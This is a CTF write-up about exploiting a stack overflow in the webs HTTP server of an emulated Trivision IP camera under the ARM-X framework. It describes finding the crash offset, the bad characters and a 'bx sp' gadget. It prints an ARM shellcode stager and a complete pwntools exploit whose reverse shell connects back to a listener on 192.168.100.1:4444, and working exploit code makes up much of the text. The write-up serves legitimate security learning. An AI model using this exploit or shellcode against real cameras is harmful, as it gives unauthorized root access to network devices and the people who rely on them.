








# ARM-X Challenge: Breaking the webs



At the beginning of November,
[@therealsaumil](https://twitter.com/therealsaumil) announced [“a brand
new IP camera CTF
challenge”](https://blog.exploitlab.net/2019/10/arm-x.html) on Twitter:

[](./armx_announcement.png)

This sounded like the perfect opportunity to try out his new ARM-X IoT
Firmware Emulation Framework. The framework makes it a pretty easy task
to emulate ARM-based IoT devices: copy the template folder, extract the
root file system to the appropriate folder, set the necessary parameters
and you’re good to go.

The VM comes pre-configured with an IP camera that “has some serious
vulnerabilities in it”. Searching the web for previous vulnerabilities
in Trivision IP cameras yields the following news article from 2016:
[https://www.theregister.co.uk/2016/11/30/iot_cameras_compromised_by_long_url/](https://www.theregister.co.uk/2016/11/30/iot_cameras_compromised_by_long_url/)
According to the [linked
Tweet](https://twitter.com/TheWack0lian/status/803656103632375808) (and
[Gist
file](https://gist.github.com/Wack0/a3435cafa5eb372b190f971190a506b8)),
a stack overflow can be triggered by providing a long string value for
the “basic” GET parameter. Using the following short Python script, the
same (or similar) vulnerability can be confirmed for the emulated
Trivision IP camera:

``` brush:
from pwn import *

HOST = '192.168.100.2'
PORT = 50628

buffer = cyclic(1000)
s = remote('192.168.100.2', 50628)
s.send(b'GET /en/login.asp?basic=' + buffer + b' HTTP/1.0\r\n\r\n')
s.close
```

[](./webs_crash0.png)

At offset 284 inside the buffer, the saved Link Register gets
overwritten. Checking the binary’s security measures shows that they are
non-existent. Well, as they always said: *The “S” in IoT stands for
“security”* ;P Nevertheless, to not having to guess the correct Stack
Pointer address (or add a NOPsled for more reliability), a “bx sp” or
“blx sp” ROP gadget would be helpful, so the virtual memory map should
be checked for base addresses and used libraries:

[](./webs_crash1.png)

Since the binary’s code section is located at 0x00008000, and we are
dealing with an HTTP context, there is no need to even bother with
checking it for ROP gadgets. Using ropper, one can find a “bx sp” gadget
inside libgcc_s.so.1:

[](./webs_ropper_bx-sp.png)

The next step would be identifying bad characters, which can be easily
achieved by consecutively crafting a buffer with 284 A’s (in order to
trigger a crash) and append the bytes 0x01 to 0xff to it. Checking the
stack values, once the crash occurs, the following bad characters (which
usually cut the character row on stack) can be found: 0x00 0x09 0x0a
0x0d 0x20 0x23 0x26.

As I still had an “HTTP-compliant” reverse shell shellcode from the
[DVAR ROP Challenge](../index.html@p=431.html), the final step of
gaining root access seemed to be a walk in the park: copy the code,
adjust the IP addresses, ports, etc., and pop a shell.

(Un)fortunately, it was anything but easy:

[](./webs_crash2.png)

According to GDB, the CPU switched to THUMB mode perfectly fine, but
then the whole shellcode got somewhat corrupted. Also, R1 pointed to
0x1005d, but after branching the instruction at 0x1005a was to be
executed. One explanation for that behavior could be cache coherency
issues. But usually, this isn’t an issue when debugging a binary (as
there are enough context switches due to waiting times).

After many failed attempts to get around this, and even trying to gain a
root shell via return2system (which failed due to broken netcat and
missing mkfifo binary; I could have used telnetd for a bind shell, but
where’s the fun in that ;P ), [I turned to the Twitterverse, reaching
out for help](https://twitter.com/HomeSen/status/1195475421627895808),
and after a few hours, got [the answer from Saumil
himself](https://twitter.com/therealsaumil/status/1195648633749639169):
The IP camera’s kernel has THUMB mode disabled :3

[](./webs_config.gz.png)

So, back to the drawing board:

- We have assembly for a working reverse shell, but compiled for ARM
  THUMB.
- We have to stick to ARM mode, since there is no THUMB
- Recompiling the assembly code for plain ARM still yields a shell (when
  executed on the target). So, there are no adjustments needed 🙂
- That new shellcode contains way too many bad characters. 🙁
- Since the stack is executable, why not simply build some shellcode
  that creates the desired shellcode on the stack, and then jumps there?

After some tinkering around, I ended up with a mere 225 commented lines
of ARM assembly code that did exactly what I wanted, and it even worked:
At first it moves the stack pointer up a little (not really necessary,
but just to be safe). Then, it crafts the originally shellcode from the
bottom up, one DWORD at a time, pushing it onto the stack (and thus
decreasing the Stack Pointer by 4, each time). Finally, it branches to
the Stack Pointer which conveniently points to start of the 2nd stage
shellcode (the below is just an excerpt, so one can get an idea of how
it worked):

``` brush:
1   .section .text
2   .global _start  
3   _start:
4       /* Move stack pointer above overwritten saved LR */
5       sub sp, #16
6       /* BINSH */
7       mov r1, #0x68
8       lsl r1, #8
9       add r1, #0x73
10      lsl r1, #8
11      add r1, #0x2f
12      push {r1}       // /sh
13      mov r1, #0x6e
14      lsl r1, #8
15      add r1, #0x69
16      lsl r1, #8
17      add r1, #0x62
18      lsl r1, #8
19      add r1, #0x2f
20      push {r1}       // /bin
21      /* ADDR */
22      mov r1, #0x164
23      lsl r1, #8
24      add r1, #0xa8
25      lsl r1, #8
26      add r1, #0xc0
27      push {r1}       // 192.168.100.1
28      mov r1, #0x5c
29      lsl r1, #8
30      add r1, #0x11
31      lsl r1, #16
32      add r1, #0x02
33      push {r1}       // 4444; AF_INET, SOCK_STREAM
34      /* execve */
35      mov r3, #0xef
36      lsl r3, #24
37      push {r3}       // svc  #0
/* ... */
216     mov r1, #0xe3
217     lsl r1, #8
218     add r1, #0xa0
219     lsl r1, #8
220     add r1, #0x10
221     lsl r1, #8
222     add r1, #0x01
223     push {r1}       // mov  r1, #1
224     /* jump to shellcode */
225     bx sp
```

Compiling the assembly code, one can extract the according shellcode and
place it inside e.g. a Python script for gaining a reverse root shell:

``` brush:
from pwn import *
  
HOST = '192.168.100.2'
PORT = 50628
LHOST = [192,168,100,1]
LPORT = 4444

BADCHARS = b'\x00\x09\x0a\x0d\x20\x23\x26'
BAD = False
LIBC_OFFSET = 0x40021000
LIBGCC_OFFSET = 0x4000e000
RETURN = LIBGCC_OFFSET + 0x2f88    # libgcc_s.so.1: bx sp   0x40010f88
SLEEP = LIBC_OFFSET + 0xdc54    # sleep@libc 0x4002ec54

pc = cyclic_find(0x63616176)  # 284
r4 = cyclic_find(0x6361616f)  # 256
r5 = cyclic_find(0x63616170)  # 260
r6 = cyclic_find(0x63616171)  # 264
r7 = cyclic_find(0x63616172)  # 268
r8 = cyclic_find(0x63616173)  # 272
r9 = cyclic_find(0x63616174)  # 276
r10 = cyclic_find(0x63616175) # 280
sp = cyclic_find(0x63616177)  # 288

SC  = b'\x10\xd0\x4d\xe2'     # sub sp, 16
SC += b'\x68\x10\xa0\xe3\x01\x14\xa0\xe1\x73\x10\x81\xe2\x01\x14\xa0\xe1\x2f\x10\x81\xe2\x04\x10\x2d\xe5\x6e\x10\xa0\xe3\x01\x14\xa0\xe1\x69\x10\x81\xe2\x01\x14\xa0\xe1\x62\x10\x81\xe2\x01\x14\xa0\xe1\x2f\x10\x81\xe2\x04\x10\x2d\xe5'      # /bin/sh
SC += b'\x59\x1f\xa0\xe3\x01\x14\xa0\xe1\xa8\x10\x81\xe2\x01\x14\xa0\xe1\xc0\x10\x81\xe2\x04\x10\x2d\xe5'   # 192.168.100.1
SC += b'\x5c\x10\xa0\xe3\x01\x14\xa0\xe1\x11\x10\x81\xe2\x01\x18\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5'   # 4444; AF_INET, SOCK_STREAM
SC += b'\xef\x30\xa0\xe3\x03\x3c\xa0\xe1\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x0c\x10\x81\xe2\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe9\x10\xa0\xe3\x01\x14\xa0\xe1\x2d\x10\x81\xe2\x01\x18\xa0\xe1\x05\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x22\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x8f\x10\x81\xe2\x01\x18\xa0\xe1\x18\x10\x81\xe2\x04\x10\x2d\xe5'   # execve()
SC += b'\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dup2(STDERR)
SC += b'\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dub2(STDOUT)
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x0e\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x31\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x21\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dup2(STDIN)
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x1c\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\xff\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x8f\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x50\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\xb0\x10\x81\xe2\x01\x14\xa0\xe1\x04\x10\x2d\xe5'   # connect()
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x1a\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\xff\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x22\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x81\x10\x81\xe2\x01\x18\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5'   # socket()
#SC += b'\x01\x0c\xa0\xe3'   # mov r0, #256  ; sleep for 256s to avoid cache coherency issues
#SC += b'\x3a\xff\x2f\xe1'   # blx r10       ; r10 contains address of sleep@libc
SC += b'\x1d\xff\x2f\xe1'   # bx sp

info('Shellcode length: %d' % len(SC))
for i in range(len(SC)):
  if SC[i] in BADCHARS:
    print('BAD CHARACTER in position: %d!')
    BAD = True
if BAD:
  exit(1)

buffer  = b'A' * r10
buffer += p32(SLEEP)    # overwrite r10 with address of sleep()
buffer += p32(RETURN)   # bx sp
buffer += SC

s = remote('192.168.100.2', 50628)
s.send(b'GET /en/login.asp?basic=' + buffer + b' HTTP/1.0\r\n\r\n')

nc = listen(LPORT)
nc.wait_for_connection()
nc.interactive()
s.close()
nc.close()
```

Originally, the shellcode contained instructions to call sleep() in
order to prevent cache coherency issues, prior to jumping to the 2nd
stage shellcode. But that would delay the execution by at least 256
seconds, due to the first function parameter being passed via R0 and
only applying values larger than 0xff to R0 would result in shellcode
that does not contain a NULL-byte. And the shellcode worked pretty
reliable without the sleep, anyways:

[](./webs_shell.png)

Since the *webs* binary was only one of the many network services
provided by the (emulated) Trivision camera, this story will probably be
continued with one of the other services:

[](./webs_netstat.png)
